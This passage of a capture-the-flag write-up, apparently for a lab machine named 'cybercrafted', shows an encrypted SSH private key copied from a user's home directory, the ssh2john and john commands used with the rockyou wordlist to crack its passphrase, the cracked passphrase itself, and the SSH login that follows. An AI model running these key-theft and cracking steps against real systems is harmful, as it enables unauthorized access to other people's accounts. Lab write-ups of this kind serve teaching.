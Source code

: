 ```jsx

www-data@cybercrafted:/home/xxultimatecreeperxx$ 
```

`nano id_rsa_ulti`

```jsx
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,3579498908433674083EAAD00F2D89F6

Sc3FPbCv/4DIpQUOalsczNkVCR+hBdoiAEM8mtbF2RxgoiV7XF2PgEehwJUhhyDG
+Bb/uSiC1AsL+UO8WgDsbSsBwKLWijmYCmsp1fWp3xaGX2qVVbmI45ch8ef3QQ1U
SCc7TmWJgI/Bt6k9J60WNThmjKdYTuaLymOVJjiajho799BnAQWE89jOLwE3VA5m
SfcytNIJkHHQR67K2z2f0noCh2jVkM0sx8QS+hUBeNWT6lr3pEoBKPk5BkRgbpAu
lSkN+Ubrq2/+DA1e/LB9u9unwi+zUec1G5utqfmNPIHYyB2ZHWpX8Deyq5imWwH9
FkqfnN3JpXIW22TOMPYOOKAjan3XpilhOGhbZf5TUz0StZmQfozp5WOU/J5qBTtQ
sXG4ySXCWGEq5Mtj2wjdmOBIjbmVURWklbsN+R6UiYeBE5IViA9sQTPXcYnfDNPm
stB2ukMrnmINOu0U2rrHFqOwNKELmzSr7UmdxiHCWHNOSzH4jYl0zjWI7NZoTLNA
eE214PUmIhiCkNWgcymwhJ5pTq5tUg3OUeq6sSDbvU8hCE6jjq5+zYlqs+DkIW2v
VeaVnbA2hij69kGQi/ABtS9PrvRDj/oSIO4YMyZIhvnH+miCjNUNxVuH1k3LlD/6
LkvugR2wXG2RVdGNIwrhtkz8b5xaUvLY4An/rgJpn8gYDjIJj66uKQs5isdzHSlf
jOjh5qkRyKYFfPegK32iDfeD3F314L3KBaAlSktPKpQ+ooqUtTa+Mngh3CL8JpOO
Hi6qk24cpDUx68sSt7wIzdSwyYW4A/h0vxnZSsU6kFAqR28/6pjThHoQ0ijdKgpO
8wj/u29pyQypilQoWO52Kis4IzuMN6Od+R8L4RnCV3bBR4ppDAnW3ADP312FajR+
DQAHHtfpQJYH92ohpj3dF5mJTT+aL8MfAhSUF12Mnn9d9MEuGRKIwHWF4d1K69lr
0GpRSOxDrAafNnfZoykOPRjZsswK3YXwFu3xWQFl3mZ7N+6yDOSTpJgJuNfiJ0jh
MBMMh4+r7McEOhl4f4jd0PHPf3TdxaONzHtAoj69JYDIrxwJ28DtVuyk89pu2bY7
mpbcQFcsYHXv6Evh/evkSGsorcKHv1Uj3BCchL6V4mZmeJfnde6EkINNwRW8vDY+
gIYqA/r2QbKOdLyHD+xP4SpX7VVFliXXW9DDqdfLJ6glMNNNbM1mEzHBMywd1IKE
Zm+7ih+q4s0RBClsV0IQnzCrSij//4urAN5ZaEHf0k695fYAKMs41/bQ/Tv7kvNc
T93QJjphRwSKdyQIuuDsjCAoB7VuMI4hCrEauTavXU82lmo1cALeNSgvvhxxcd7r
1egiyyvHzUtOUP3RcOaxvHwYGQxGy1kq88oUaE7JrV2iSHBQTy6NkCV9j2RlsGZY
fYGHuf6juOc3Ub1iDV1B4Gk0964vclePoG+rdMXWK+HmdxfNHDiZyN4taQgBp656
RKTM49I7MsdD/uTK9CyHQGE9q2PekljkjdzCrwcW6xLhYILruayX1B4IWqr/p55k
v6+jjQHOy6a0Qm23OwrhKhO8kn1OdQMWqftf2D3hEuBKR/FXLIughjmyR1j9JFtJ
-----END RSA PRIVATE KEY-----
```

`chmod 600 id_rsa_ulti`

`ssh -i id_rsa_ulti xxultimatecreeperxx@cybercrafted.thm`

```jsx
Enter passphrase for key 'id_rsa_ulti': 
```

`ssh2john id_rsa_ulti > hashidrsa`

`sudo john --wordlist=/usr/share/wordlists/rockyou.txt hashidrsa`

```jsx
creepin2006      (id_rsa_ulti) 
```

`ssh -i id_rsa_ulti xxultimatecreeperxx@cybercrafted.thm`
